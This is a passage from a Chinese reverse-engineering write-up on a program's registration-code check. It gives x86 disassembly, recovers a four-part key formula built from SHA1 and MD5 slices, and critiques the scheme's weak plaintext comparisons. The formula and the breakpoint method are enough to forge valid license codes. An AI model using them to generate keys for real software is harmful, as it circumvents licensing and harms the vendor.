004FA39A  JLE SHORT atlanctu.004FA3B4
004FA39C  LEA EAX,DWORD PTR SS:[EBP-18]
004FA39F  PUSH EAX
004FA3A0  MOV ECX,6              ； 切割6位
004FA3A5  MOV EDX,4              ； 从第4位开始
004FA3AA  MOV EAX,DWORD PTR SS:[EBP-18]
004FA3AD  CALL atlanctu.00404FB8
```

切割MD5字符化结果的4－9位共计6位。

```
004FA3B2  JMP SHORT atlanctu.004FA3CA
004FA3B4  LEA EAX,DWORD PTR SS:[EBP-18]
004FA3B7  PUSH EAX
004FA3B8  MOV ECX,6
004FA3BD  MOV EDX,1
004FA3C2  MOV EAX,DWORD PTR SS:[EBP-18]
004FA3C5  CALL atlanctu.00404FB8
004FA3CA  MOV EAX,DWORD PTR SS:[EBP-2C]
； 注册码第四段
004FA3CD  MOV EDX,DWORD PTR SS:[EBP-18]
； 切割结果
004FA3D0  CALL atlanctu.00404EA4    ； 三次比较
```

从比较结果知 注册码第4段为注册码前3段的MD5值的第4－9位计6位。

### 验证流程小节

注册码分为4段。第1段主要与名称相关，计6位。第2段是注册日期，计7位。第3段是注册用户数数据，长度6位。第4段为前3段的MD5结果，计6位。注册码与硬件特征码无关，仅与注册名称和注册用户数有关。其注册码形式可简记为：

```
SHA1(Name,4,6)-regDATE-regNUM-MD5("SHA1(Name,4,6)-regDATE-NUMBER",4,6)
```

### 软件保护机制评析

不难看出，软件制作者在注册码的产生上颇费心机。既使用了著名的单向门阀函数SHA1、MD5，还使用另外的较为复杂的加密变换(每轮运算132次)，其强度可以说是够大的了。使得cracker制作注册机比较麻烦。但是软件制作者也犯了两个致命的错误。

- 使用明码比较。每一段注册码处理流程基本上是：字符->整数->字符，使得在跟踪时极其容易地观察到关键数据及其改变方式。
- 未引用机器硬件特征码，不能做到一机一码而形成通用注册码。也就是说，只要有一人能正确注册，天下人都可用这个信息注册。

例如，我只需要在3处比较点下好断点，根本就不需要什么加密知识，通过几次调试，逐次修改注册码，就可以得到我想得到的注册码。这种对软件的保护，强乎？弱乎？不言自明矣！
